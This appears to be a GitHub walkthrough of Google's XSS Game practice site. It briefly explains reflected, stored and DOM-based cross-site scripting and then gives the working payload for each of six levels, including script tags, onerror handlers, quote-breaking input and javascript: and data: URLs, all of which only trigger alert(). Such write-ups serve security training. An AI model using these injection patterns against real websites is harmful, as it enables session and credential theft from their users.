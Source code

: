 # XSS Game Appspot 

![image](https://user-images.githubusercontent.com/60937657/209459481-f9fa5664-0a05-4402-8f99-2abe37ffd64d.png)

Link of XSS GAME AREA - https://xss-game.appspot.com/

**Cross-Site Scripting (XSS)** is one of the most popular and vulnerable attacks which is known by every advanced tester. It is considered one of the riskiest attacks for web applications and can bring harmful consequences too.

XSS is often compared with similar client-side attacks, as client-side languages are mostly being used during this attack. However, an XSS attack is considered riskier, because of its ability to damage even less vulnerable technologies.

## Types of Cross Site Scripting Attacks

The prime purpose of performing an XSS attack is to steal another person’s identity. As mentioned, it may be cookies, session tokens, etc. XSS also may be used to display faked pages or forms for the victim. However, this attack can be performed in several ways.

This attack is divided into three main categories as shown below:

1) Reflected XSS – This attack occurs, when a malicious script is not being saved on the webserver but reflected in the website’s results.
2) Stored XSS – This attack occurs when a malicious script is being saved on the webserver permanently.
3) DOM – This occurs, when the DOM environment is being changed, but the code remains the same.


## Level 1 


![image](https://user-images.githubusercontent.com/60937657/209504143-554f58db-6d74-474b-b20f-9f6d1fd4fb8b.png)

```
<script>alert()</script>
```

![image](https://user-images.githubusercontent.com/60937657/209503948-bd3663c3-59d9-4516-a762-96af44f6294d.png)


## Level 2 


![image](https://user-images.githubusercontent.com/60937657/209503755-05c0d614-3dda-4dc7-b855-a42d5b9f4cee.png)

```
<img src="http://inexist.ent"
onerror="javascript:alert(1)"/>
```

![image](https://user-images.githubusercontent.com/60937657/209503869-0f536c23-f2a7-466c-bb0d-101e4a695477.png)


## Level 3 


![image](https://user-images.githubusercontent.com/60937657/209504304-c8f8484f-0c54-4673-a6d0-c403a0591670.png)

```
https://xss-game.appspot.com/level3/frame#1' onerror='alert(1)';
```

![image](https://user-images.githubusercontent.com/60937657/209508407-5e598764-ee7e-478e-a1f6-34245fc3cf76.png)


## Level 4 


![image](https://user-images.githubusercontent.com/60937657/209508468-2e519c5c-0e26-44a7-ad53-a39ff7e25a75.png)

```
timer=');alert('xss
```

![image](https://user-images.githubusercontent.com/60937657/209509468-678f2ef2-8aec-4e88-a381-c7f05e2ac147.png)


## Level 5 


![image](https://user-images.githubusercontent.com/60937657/209523525-15f14c6c-d4e3-4853-8089-57d5614cba2d.png)

Command to be inserted in browser URL section;
```
https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)
```
Command to be inserted in email section;
```
signup?next=javascript:alert(1)
```

![image](https://user-images.githubusercontent.com/60937657/209523829-c4040efd-b95f-487d-a5de-41f4bac8f2fd.png)


## Level 6 


![image](https://user-images.githubusercontent.com/60937657/209524240-5d45e843-c4c8-432a-bb60-fe1f9a151db1.png)

```
https://xss-game.appspot.com/level6/frame#data:text/plain,alert('xss')
```

![image](https://user-images.githubusercontent.com/60937657/209524546-077771d4-2e74-4a4c-a1dc-e085f8452bd0.png)

**Game Over** 

![image](https://user-images.githubusercontent.com/60937657/209524778-7a732523-738f-4b49-9e77-68adc0fbad9d.png)

**To Learn More Click On This Link(Trust me its secure !!!! -_-)** - https://bughunters.google.com/learn
